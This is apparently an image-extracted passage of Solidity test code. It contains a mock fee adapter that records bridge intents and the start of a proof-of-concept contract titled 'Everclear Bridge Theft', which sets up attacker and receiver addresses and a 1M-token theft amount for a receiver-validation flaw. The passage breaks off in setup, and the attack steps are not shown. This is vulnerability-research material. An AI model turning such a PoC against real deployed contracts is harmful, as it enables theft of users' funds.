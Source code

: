 ```solidity
            data: data,
            feeParams: feeParams
        });

        intentCounter++;
        lastIntentId = keccak256(abi.encode(intentCounter, receiver, amount));

        // KEY: Just track the intent, don't transfer tokens
        emit IntentCreated(lastIntentId, receiver, inputAsset, amount);

        Intent memory intent = Intent({
            initiator: bytes32(uint256(uint160(msg.sender))),
            receiver: receiver,
            inputAsset: bytes32(uint256(uint160(inputAsset))),
            outputAsset: outputAsset,
            maxFee: maxFee,
            origin: 0,
            nonce: uint64(intentCounter),
            timestamp: uint48(block.timestamp),
            ttl: ttl,
            amount: amount,
            destinations: destinations,
            data: data
        });

        return (lastIntentId, intent);
    }

    /**
     * @notice Helper to get receiver address from last intent
     */
    function getLastReceiver() external view returns (address) {
        return address(uint160(uint256(lastIntent.receiver)));
    }

    event IntentCreated(
        bytes32 indexed intentId,
        bytes32 indexed receiver,
        address indexed inputAsset,
        uint256 amount
    );
}

/**
 * @title Everclear Bridge Theft PoC - Two Phase Attack
 * @notice Demonstrates receiver validation vulnerability with simulated fulfillment
 */
contract Rebalancer_EverclearTheft_PoC is Rebalancer_Unit_Shared {
    EverclearBridge public everclearBridge;
    MockFeeAdapter public mockFeeAdapter;

    address public attacker = makeAddr("attacker");
    address public legitimateReceiver = makeAddr("legitimateReceiver");
    uint32 public constant DESTINATION_CHAIN_ID = 42161; // Arbitrum
    uint256 public constant THEFT_AMOUNT = 1_000_000e18; // 1M tokens
    uint256 public constant MARKET_AMOUNT = 5_000_000e18; // 5M tokens

    function setUp() public override {
        super.setUp();

        // Deploy mock fee adapter to capture intent details
        mockFeeAdapter = new MockFeeAdapter();

```